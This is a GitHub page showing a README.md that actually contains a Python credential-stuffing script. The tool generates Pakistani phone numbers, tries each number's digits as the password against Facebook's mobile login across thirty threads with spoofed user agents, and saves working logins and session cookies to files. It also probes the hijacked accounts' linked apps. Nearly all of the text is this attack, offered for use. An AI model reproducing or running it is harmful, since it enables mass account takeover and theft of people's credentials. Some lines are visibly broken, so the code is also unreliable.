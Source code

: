 Skip to content
Ahturk110
/
ahturk706
Private
Code
Issues
1
Pull requests
Actions
Projects
Security
Insights
Settings
ahturk706/README.md
@Ahturk110
Ahturk110 Ahturk110
 1 contributor
265 lines (252 sloc)  9.89 KB
from bs4 import BeautifulSoup as sop from concurrent.futures import ThreadPoolExecutor as tred import os,sys,time,json,random,re,string,platform,base64,platform,uuid import marshal try: import requests from concurrent.futures import ThreadPoolExecutor as ThreadPool import mechanize from requests.exceptions import ConnectionError except ModuleNotFoundError: os.system('pip install mechanize requests futures==2 > /dev/null') os.system('python Ahturk110.py') from bs4 import BeautifulSoup ugen = [] A = '\x1b[1;97m' B = '\x1b[1;96m' C = '\x1b[1;91m' D = '\x1b[1;92m' M = '\033[1;31m' H = '\033[1;32m' N = '\x1b[1;37m'
E = '\x1b[1;93m' F = '\x1b[1;94m' G = '\x1b[1;95m' P = '\033[1;37m' RED = '\033[1;91m' WHITE = '\033[1;97m' GREEN = '\033[1;32m' # YELLOW = '\033[1;33m' BLUE = '\033[1;34m' ORANGE = '\033[1;35m' KB = '{ KB }' for xd in range(10000): a='Mozilla/5.0 (Linux; U; Android' b=random.choice(['6','7','8','9','10','11','12']) c=' en-us; GT-' d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) e=random.randrange(1, 999) f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/' h=random.randrange(73,100) i='0' j=random.randrange(4200,4900) k=random.randrange(40,150) l='Mobile Safari/537.36' uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}' ugen.append(uaku2) try: os.system('curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.html') except: pass sock=open('ua.html','r').read().splitlines() def uaku(): try: ua=open('bbnew.txt','r').read().splitlines() for ub in ua: ugen.append(ub) except: a=requests.get('https://bacho1001.blogspot.com/2022/07/ua.html').text ua=open('.user-agents.txt','w') aa=re.findall('line">(.*?)<',str(a)) for un in aa: ua.write(un+'\n') ua=open('.user-agents.txt','r').read().splitlines() loop = 0 cps = [] oks = [] twf = []

def clear(): os.system('clear') print(logo) logo =f"""____________________ AUTHOR : Ahturk110 FACEBOOK : Ali Hyder VERSION : 1.1 [Ahturk110] ____________________"""

def linex(): print(f'==========================================================') def checks(oks,cps,twf): if not len(oks) != 0: pass if len(cps) != 0: print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s \x1b[1;97mKB-OK.txt' % ( H, P, str(len(oks)))) print('\x1b[1;97m TOTAL CP :\x1b[1;97m %s \x1b[1;97mKB-CP.txt' % (H, P, str(len(cps)))) print('\x1b[1;97m TOTAL 2F :\x1b[1;97m %s \x1b[1;97mKB-2F.txt' % (H, P, str(len(twf)))) input("\x1b[1;97mPRESE ENTER TO BACK xyz ") xyz() loop = 0 cps = [] oks = [] twf = [] def cek_apk(session,coki): w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text sop = BeautifulSoup(w,"html.parser") x = sop.find("form",method="post") game = [i.text for i in x.find_all("h3")] if len(game)==0: print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE APKS 🎮%s '%(ORANGE)) else: print(f'\r {GREEN}[√] %sYOUR ACTIVE APPLICATION DETAILS :'%(CGREEN)) for i in range(len(game)): print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N)) #else: #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N)) w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text sop = BeautifulSoup(w,"html.parser") x = sop.find("form",method="post") game = [i.text for i in x.find_all("h3")] if len(game)==0: print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS 🎮%s'%(ORANGE)) else: print(f'\r 🎮 %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED)) for i in range(len(game)): print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N)) print(f"{GREEN}[√]---------------------------------------------------[√]") #____________# def xyz(): #os.system("play-audio WELCOME_TO_kb_BOOT_818.mp3") os.getuid os.system("clear");print(logo) print(' \x1b[97m[\033[37;41m M A I N M E N U \033[0;m] ') print(f"") print(f"[01] {WHITE}START RANDOM CLONING") print(f"[00] {WHITE}EXIT PROGRAM ") print(f"") print(f"\033[1;91m========================================================") Ahturk = input("[√] CHOOSE : ") if Ahturk in ["1","01"]: Random() elif Ahturk in ["0","00"]: exit() else: print('\033[1;31mINCORECT OPTION!\033[1;31m') xyz()

#_____________#

#_____________________#

def Random(): user=[] os.getuid os.geteuid os.system("clear") print(logo) print(f"") clear() print(f" \x1b[97m[\033[37;41m C O D E M E N U \033[0;m]") print(f"") linex() print(f" \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]") print(f"") print(' 0306 ,0300 ,0315 ,0333') print(f" 0341 ,0342 ,0345 ,0349") print(f" 0321 ,0316 ,0308 ,0309") print(f"") linex() code = input(' PUT CODE : ') os.system("clear") print(logo) print(f"") print(f" \x1b[97m[\033[37;41m L I M I T M E N U \033[0;m]") print(f"") limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: ')) for nmbr in range(limit): nmp = ''.join(random.choice(string.digits) for _ in range(7)) user.append(nmp) with ThreadPool(max_workers=30) as yaari:
clear() tl = str(len(user)) print(f" {WHITE}TOTAL IDZ : {RED}"+tl) print(f" {WHITE}COUNTRY YOU CHOOSE : PAKISTAN ") print(f" {WHITE}NUMBER YOU PUT : {RED}"+code) print(f" {WHITE}PROCESS HAS BEEN STARTED") print(f" {WHITE}BE PATIENT.......") print(f" {WHITE}TO STOP PROCESS Ctrl + Z ") print(f'===========================================================') for love in user: uid = code+love pwx = [love] yaari.submit(free,uid,pwx,tl) def free(uid,pwx,tl): global loop global oks global agents try: for ps in pwx: bi = random.choice([A]) session = requests.Session() pro = random.choice(ugen) free_fb = session.get('https://m.facebook.com').text log_data = { "lsd":re.search('name="lsd" value="(.?)"', str(free_fb)).group(1), "jazoest":re.search('name="jazoest" value="(.?)"', str(free_fb)).group(1), "m_ts":re.search('name="m_ts" value="(.?)"', str(free_fb)).group(1), "li":re.search('name="li" value="(.?)"', str(free_fb)).group(1), "try_number":"0", "unrecognized_tries":"0", "email":uid, "pass":ps, "login":"Log In"} header_freefb = {'authority':'m.facebook.com', 'method': 'POST', 'scheme': 'https', 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9', 'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9', 'cache-control': 'max-age=0', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"', 'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"', 'sec-fetch-dest': 'document', 'sec-fetch-mode': 'navigate', 'sec-fetch-site': 'none', 'sec-fetch-user': '?1', 'upgrade-insecure-requests': '1', 'user-agent':pro} lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=100&refid=8',data=log_data,headers=header_freefb).text log_cookies=session.cookies.get_dict().keys() if 'c_user' in log_cookies: coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) cid = coki[7:22] print('\r\033[1;32m[√]---------------------[Ahturk110]--------------------[√]\nEMAIL : '+uid+'\nUID : '+cid+' √ '+ps+ '\nCOOKIE : '+coki+'\n[√]---------------------------------------------------[√]') cek_apk(session,coki) open('/sdcard/Ahturk110-OK.txt', 'a').write(cid+' | '+ps+'\n') oks.append(cid) break elif 'checkpoint' in log_cookies: coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) cid=coki[24:39] Red = '\033[1;31m' print(f'\r{Red}[×]--------------------[Ahturk110-CP]---------------------[×]\nEMAIL : '+uid+'\nUID : '+cid+' √ '+ps+ '\n[×]---------------------------------------------------[×]\033[1;97m') open('/sdcard/Ahturk110-CP.txt', 'a').write(cid+' | '+ps+'\n') cps.append(cid) break elif '/x/checkpoint' in log_cookies: coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) cid=coki[7:22] Red = '\033[1;31m' print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m') open('/sdcard/Ahturk110-2F.txt', 'a').write(cid+' | '+ps+'\n') twf.append(cid) else: continue loop+=1 sys.stdout.write(f'\r\33[1;37m[Ahturk110] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))), sys.stdout.flush() checks(oks,cps,twf) except: pass

if name == 'main': xyz()

Footer
© 2022 GitHub, Inc.
Footer navigation
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
ahturk706/README.md at main · Ahturk110/ahturk706
